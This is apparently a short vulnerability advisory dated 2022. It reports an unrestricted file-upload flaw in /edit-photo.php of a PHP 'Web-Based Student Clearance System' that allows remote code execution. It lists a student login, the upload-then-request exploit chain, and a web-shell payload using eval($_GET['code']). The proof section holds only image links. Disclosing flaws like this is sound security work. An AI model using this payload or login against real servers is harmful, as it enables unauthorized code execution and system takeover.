 #### Title: web-based_student-system_RCE.md
#### Author: toyydsBT123
#### organize: Arr3stY0u
#### Organization introduction : https://www.shg-sec.com/
#### Date: 09/30/2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html
#### Version: 1.0
#### Reference: https://github.com/toyydsBT123/web-based-student/blob/main/web-based_student-system_RCE_poc.md

#### Description:
### Unrestricted POST upload file found in /edit-photo.php, resulting in remote code execution,User can make <?php phpinfo();?> or <?php eval($_GET['code'])?> to exploit

# Status: CRITICAL

### [+] Payloads:
student_user->(username:18/132010)(password:11111111) -> login.php ->/edit-photo.php->POST upload phpcodeFile ->(<?php phpinfo();?>) or (<?php eval($_GET['code'])?>)
send File->server -> Access the uploaded php file -> PHP RCE

```
###payload
```

## Proof and Exploit:
code![image](https://github.com/toyydsBT123/web-based-student/blob/main/1.png)
Firefox browser ![image](https://github.com/toyydsBT123/web-based-student/blob/main/2.png)
